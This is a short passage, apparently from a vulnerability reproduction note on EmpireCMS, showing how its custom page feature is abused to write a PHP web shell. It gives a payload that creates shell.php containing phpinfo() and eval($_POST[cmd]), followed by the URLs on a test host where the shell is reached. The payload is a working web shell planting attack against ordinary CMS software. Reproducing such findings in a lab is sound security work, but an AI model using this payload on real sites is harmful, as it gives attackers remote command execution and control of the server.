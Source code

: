 自定义页面

```
<?php fputs(fopen("shell.php","a"),'<?php phpinfo();eval($_POST[cmd]);?>')?>
<?php phpinfo();eval($_POST['cmd']);?>
```

http://empirecms1.com//e/admin/shell.php

http://empirecms1.com/page.htmlm

![image-20210502221710892](../acess/image-20210502221710892.png)